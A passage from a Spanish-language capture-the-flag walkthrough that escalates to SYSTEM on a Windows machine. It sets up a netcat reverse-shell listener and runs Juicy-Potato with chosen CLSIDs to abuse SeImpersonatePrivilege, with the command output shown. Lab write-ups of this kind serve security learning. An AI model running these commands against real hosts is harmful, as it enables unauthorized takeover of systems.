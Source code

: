 ```bash
rlwrap nc -nlvp 1234
```

Una vez tengamos todas las herramientas necesarias en la máquina víctima procederemos a ejecutar [Juicy-Potato](https://github.com/ohpe/juicy-potato). Tendremos que indicar distintos parámetros, entre ellos el programa que queremos que se lance como administrador y el CLSID que usaremos para ello.

En la primera ejecución probaremos con el CLSID por defecto por lo que omitiremos el parámetro -c:

```powershell
./js.exe -t * -l 6666 -p shell.bat
```

Esto nos devolverá el siguiente error que significa que el CLSID no es válido:

```plaintext
COM -> recv failed with error: 10038
```

Probaremos a usar un CLSID distinto, para ello en el mismo repositorio de [Juicy-Potato](https://github.com/ohpe/juicy-potato) accederemos a la lista de CLSIDs que corresponden con nuestra versión de Windows:

<img src="https://i.imgur.com/NFZM7v2.png" width=700>

En este caso probaré con el CLSID del servicio wpnservice:

```powershell
./js.exe -t * -l 6666 -p shell.bat -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
```

Lo que nos devolverá:

```plaintext
Testing {7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381} 6666
......
[+] authresult 0
{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381};NT AUTHORITY\SYSTEM


[+] CreateProcessWithTokenW OK
```

Esto significa que hemos podido abusar del privilegio SeImpersonatePrivilege, por lo que recibiremos una powershell como el usuario administrador:

```powershell
whoami
```

```plaintext
nt authority\system
```

La flag root.txt la tendremos en el directorio C:\Users\Administrator\Desktop\.

<br>

## Post Explotación
